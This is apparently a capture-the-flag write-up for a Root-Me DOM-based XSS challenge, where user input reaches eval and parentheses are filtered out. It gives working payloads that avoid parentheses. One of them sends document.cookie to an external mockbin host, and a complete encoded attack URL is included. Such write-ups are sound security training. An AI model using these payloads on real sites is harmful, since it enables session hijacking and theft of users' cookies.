 # XSS DOM based - eval

## Initial attempt

- Input is checked for a regex ` /^\d+[\+|\-|\*|\/]\d+/`
- Parenthesis are checked and removed if regex is matched (definitely an eval behind that input field)
- Achieve XSS through a relatively simple payload

```javascript
1+1, alert`1`
```

Tried this payload

```javascript
1+1,l="https://b5e02d613ca44b7384e0290125a1448e.api.mockbin.io/"+document.cookie, console.log`${l}`
```

Problem: that thing in backticks evaluates to an array.

## Admin's cookie

Wasted more time than I'd like to admit.

```javascript
1+1,document.location="https://b5e02d613ca44b7384e0290125a1448e.api.mockbin.io/?c="+document.cookie
```

```text
http://challenge01.root-me.org/web-client/ch34/?calculation=1%2B1%2Cdocument.location%3D%22https%3A%2F%2Fb5e02d613ca44b7384e0290125a1448e.api.mockbin.io%2F%3Fc%3D%22%2Bdocument.cookie
```

### References
- [JS without parenthesis](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)
- [DOMMatrix](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix) (issue: cannot use spaces, they just get removed when they reach the script)
